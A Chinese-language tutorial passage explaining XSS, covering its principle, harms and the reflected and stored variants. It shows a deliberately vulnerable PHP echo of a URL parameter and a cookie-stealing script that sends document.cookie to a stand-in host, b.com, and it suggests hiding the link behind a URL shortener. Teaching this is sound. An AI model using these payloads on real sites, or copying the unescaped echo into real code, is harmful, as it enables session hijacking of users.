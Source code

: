 # XSS 简介
XSS（Cross-site scripting）跨站脚本攻击，为了不和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS。

# XSS 原理
用户的输入内容被当作程序在网页执行。

![XSS攻击](https://imgconvert.csdnimg.cn/aHR0cDovL2ltZy5ibG9nLmNzZG4ubmV0LzIwMTgwMTA2MTQzNzA5NTM5?x-oss-process=image/format,png)

# XSS 危害

- 偷取用户的密码和登录态
- 破坏页面结构
- 重定向到其它网站

# XSS 攻击分类

XSS 攻击主要有两种类型，一种是反射型，另一种是存储型。

## 反射型（Reflected）

> url 参数直接注入

我们会发现网站的某个内容是从 url 参数中获取的，这个时候就可能发生反射性 XSS 攻击。

```php
<?php 
$content = $_GET['content'];
echo $content;
```

比如 `test.com` 网站后端代码如上所示，当我们访问 `http://test.com/index.php?content=Hello%20world%3Cscript%3Ealert(%27try%20it%27)%3C/script%3E` 时，就会出现如下界面
![反射型攻击](https://imgconvert.csdnimg.cn/aHR0cDovL2ltZy5ibG9nLmNzZG4ubmV0LzIwMTgwMTA2MTU0MDMzNjc0?x-oss-process=image/format,png)

也许有人会说，不就是弹个框吗，有什么大不了的。那如果 `content` 参数的内容改成`<script>location.href='http://b.com?session='+document.cookie</script>`，而这个 b 网站恰好是我写的，那么通过该链接访问网站的人他的 cookie 信息就泄露了，极有可能 cookie 里面含有账号密码信息。

当然如果直接把这个链接给别人，那么有点常识的人看到这个特别的 url 都不会点。但是，我们可以利用短链，将这些参数隐藏，这样别人中招的概率就会大大提高。

## 存储型（Stored）

> 存储到 DB 后读取时注入

这种类型的攻击一般发生在表单提交的地方，文章评论区居多。

不同于反射型，存储型攻击的危害要更大，他的传播面积广，存在时间长。

比如，当我们在评论输入了 `<script>location.href='http://b.com?session='+document.cookie</script>` 这样的内容，然后将他提交，内容便会保存到数据库。如果其他人，进入看网站，看到了这条评论，那么他就会中招。
